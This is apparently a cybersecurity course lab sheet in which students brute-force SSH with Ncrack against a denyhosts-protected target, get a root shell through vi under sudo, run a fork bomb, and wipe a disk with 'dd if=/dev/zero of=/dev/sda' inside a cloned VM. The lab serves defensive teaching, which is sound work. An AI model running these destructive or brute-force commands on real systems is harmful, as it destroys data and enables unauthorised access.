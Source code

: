 # **Lab 07:** Analyze and Differentiate Types of Attacks and Mitigations Techniques

## **Bruteforcing SSH**

### **Demostrate Ncrack Against denyhosts**

**From Target's Machine**
- Open Terminal
- Verify that the SSH service is running
```
~$ ps -eaf | grep -v grep | grep sshd
```
- Verify that the service **denyhosts** is not running
```
~$ service denyhosts status
```
- Based on the denyhosts.conf file, check to see where it places denied hosts.
```
~$ sudo grep HOSTS_DENY /etc/denyhosts.conf | grep -v "#"
```
**From Threat Actor's Machine**
- Open Terminal
- Test SSH connection to the target system
```
~$ ssh name@ipaddress "uptime"
```
**From Target's Machine**
- Open Terminal
- Grep the log entry recorded from the SSH connection that was initiated by the threat actor.
```
~$ grep “Accepted password” /var/log/auth.log | grep “Attacker'sIP”
```
**From Threat Actor's Machine**
- Open Terminal
- Initiate the Ncrack tool against target's SSH service, using a predefined password list.
```
~$ ncrack –v Target's IP -- user root –P /tmp/wordlists/passlist –p ssh
```
**From Target's Machine**
- Open Terminal
- Start the denyhosts script
```
~$ sudo service denyhosts start
```
**From Threat Actor's Machine**
- Open Terminal
- Attempt to SSH to the target's system with the credentials gained from the Ncrack tool
```
~$ ssh name@Target'sIP
```
- Might notice now how the connection is being automatically closed by the remote system.
- If so, determine if the IP address is being blocked or if SSH traffic is being blocked.
```
~$ telnet Target'sIP 22
```
- Noticing the output, we can determine that the IP address is being blocked since the remote host is still listening on port 22

**From Target's Machine**
- Open Terminal
- View the contents of the **hosts.denyfile**
- Notice that the file is populated with the IPaddress belonging to the Threat Actor's system. 
- It can be concluded that the denyhosts service has blocked Attacker’s IP address based on its attempt to force itself an SSH connection with the remote system.
- Analyze the auth.log file for failed password attempts (case sensitive).
```
~$ grep “Failed password” /var/log/auth.log | grep “203.0.113.2”
```
- Notice the failed attempts created by the Ncrack application.

### **Unblock Threat Actor's IP**

**From Target's Machine**
- To remove the blocked entry from the hosts.deny file, temporarily stop the rsyslogservice.
```
~$ sudo service rsyslog stop
```
- Stop the denyhosts service.
```
~$ sudo service denyhosts stop
```
- Edit the hosts.deny file by removing the Attacker's IP entry.
```
~$ sudo nano /etc/hosts.deny
```
- Use your arrows keys to navigate to the IP entry and press Backspace to erase the entire line: “sshd: Attacker's IP”
- Once modified, press CTRL+X to exit.
- When asked to save modified buffer, press the Ykey for Yes.
- Press Enter to confirm the filename as /etc/hosts.deny

## **Dangerous Linux Commands**

### **Exploiting sudo with vi Editor**

- Escalate to root privileges.
```
~$ sudo su
```
- Create and edit the hacksrus.txt file**
```
~$ vi hacksrus.txt
```
- Once in the **vi** editor, type the command below.
```
:!/bin/sh
```
- The input is recorded at the bottom of the **vi** editor.
- Press Enter.
- After the command is entered, you’ll be presented with the ‘ # ‘ prompt.
- Type *id* followed by pressing the Enter key.
- This command will print the current user
- Notice that you are running a shell as root.
- Type whoami to confirm you are the user root. Press Enter.
- Type exitfollowed by pressing the Enter key to close the shell.
- Press the Enterkey once more.
- Notice the prompt returns to the **vi** editor, type the command below followed by pressing the Enter key to quit.
```
:q!
```
- While in the terminal, type the command below to analyze the log file showing privileges being escalated to root.
```
~$ grep sudo /var/log/auth.log | tail -l
```
## **Demonstrate DOS Attack**
### **Warning:** Do not attempt this section of the lab on a personal computer.  It will cause serious harm to a machine, resulting in an inoperable state.
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Monitor live CPU and memory usage within a terminal window. Enter:
```
~$ htop
```
- Open a new terminal window
- Make sure to arrange the display of the new terminal window where you can see both terminals side-by-side.
- In the new terminal window, type the command below to initiate a “fork bomb” attack on the VM. 
```
~$ :(){ :|: & };:
```
- Watch closely at the terminal window with **htop** running.
- After 3-4 minutes, notice how the CPU usage spikes, reaching almost 100% while both memory and swap memory are spiking as well.
- What is happening here is that the Virtual Machine is running out of memory by forking a process infinitely.
- In other words, it is making multiple copies of itself that is setting off a chain reaction resulting in quickly exhausting the system’s resources.
- Because the system is overwhelmed, the **htop** application may be slow and unresponsive.
- Keep an eye on the Uptime value and see whether it is incrementing. If it is not, it is unresponsive. You may proceed to the next step.
- When you are finished analyzing the “fork bomb” operation, shutdown the Virtual Machine.

## **Destroying the HDD with dd**
### **Warning:**  Do not attempt this section of the lab on a personal computer. It will cause serious harm to a machine resulting, in an inoperable state. 
- ### **Be sure to clone your Virtual Machine before continuing.**

### **From Virtual Machine**
- Open a terminal
- Run **iotop** to actively monitor disk I/O activity
```
~$ sudo iotop
```
- Open another new terminal window.
- Position both terminal windows so that both can be viewed at the same time.
- Type the command below to mimic an HDD attack if a threat actor had access to a physical machine within a network infrastructure.
```
~$ sudo dd if=/dev/zero of=/dev/sda
```
- Notice on the Terminal running **iotop**, a heavy I/O activity is taking place.
- Wait 1-3 minutes until the system crashes.
- Power down VM
- Power on VM
- Wait 1-3 minutes until a message appears showing that no operating system is available.
- The **dd** command has been successful in such a way that the damage has been done.
- The command process kept writing random zeros on the partition *sda* to the point where it can no longer function because of the overwritten files.